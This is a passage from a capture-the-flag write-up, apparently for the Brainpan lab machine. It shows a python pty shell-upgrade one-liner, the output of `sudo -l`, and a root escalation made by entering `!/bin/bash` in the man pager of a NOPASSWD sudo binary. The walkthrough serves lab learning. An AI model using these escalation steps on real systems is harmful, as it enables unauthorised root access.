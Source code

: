 * Find python on the box: `which python3`
* Upgrade your shell: `/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'`

:::

## PRIVESC

There are (supposedly) two routes to root: sudo, and a suid binary on the box. Let's look at both.

### method 1: sudo

Once we have our upgraded shell, we try out `sudo -l` to see what we can see:

```bash
sudo -l
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:/home/puck$
```

So we have a command we can run as root, with no password required.

When I run that command `sudo /home/anansi/bin/anansi_util`, I get this:

```bash
sudo /home/anansi/bin/anansi_util
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
```

The `manual [command]` looks the most interesting because we get to feed it input.

Long story short, it runs the `man` command and gives us a manual page based on a keyword we give it. Myself, along with the collective skills of my Twitch chat crew, we deduce that we will try and pop a shell from inside the `less` output that `man` gives i.e. we try and enter `!/bin/bash` from inside the `man` output (which is running as `sudo`) and essentially will be `root` running the shell command.

```bash
sudo /home/anansi/bin/anansi_util manual id
sudo /home/anansi/bin/anansi_util manual id
No manual entry for manual
WARNING: terminal is not fully functional
!/bin/bash
!/bin/bash
root@brainpan:/usr/share/man#
```
